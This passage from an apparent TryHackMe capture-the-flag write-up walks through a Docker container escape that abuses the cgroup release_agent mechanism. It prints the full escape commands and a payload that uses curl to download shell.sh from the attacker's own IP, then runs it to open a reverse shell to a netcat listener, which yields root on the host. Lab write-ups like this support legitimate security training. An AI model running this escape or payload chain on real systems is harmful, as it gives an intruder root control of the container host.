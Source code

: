 ### Commands on the blog
```console
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent

echo '#!/bin/sh' > /cmd
echo "ps aux > $host_path/output" >> /cmd
chmod a+x /cmd

sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```
We just have to put the commands we want to run on the /cmd.

# Getting a root shell on the host
### Listening on our local box
```console
local@local:~/Documents/tryhackme/misguided_ghosts$ nc -nvlp 9001
Listening on 0.0.0.0 9001
```

### Exploit
```console
/home/zac/notes # mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
/home/zac/notes # echo 1 > /tmp/cgrp/x/notify_on_release
/home/zac/notes # host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
/home/zac/notes # echo "$host_path/cmd" > /tmp/cgrp/release_agent
/home/zac/notes # echo '#!/bin/sh' > /cmd
/home/zac/notes # echo 'curl 10.6.31.213:8000/shell.sh -o /dev/shm/shell.sh' >> /cmd
/home/zac/notes # echo 'chmod +x /dev/shm/shell.sh' >> /cmd
/home/zac/notes # echo 'sh /dev/shm/shell.sh' >> /cmd
/home/zac/notes # chmod a+x /cmd
/home/zac/notes # sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```
Here we get a file called shell.sh which contains few reverse shell payloads from our local box using curl, save the file on /dev/shm/, make it executable and run the file.

And if we check the netcat listener
```console
local@local:~/Documents/tryhackme/misguided_ghosts$ nc -nvlp 9001
Listening on 0.0.0.0 9001
Connection received on 10.10.174.16 58312
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /etc/hostname
misguided_ghosts
```
We get a shell as root on the host box.

## Reading the root flag
```console
# cat /root/root.txt
{p1**************n}
```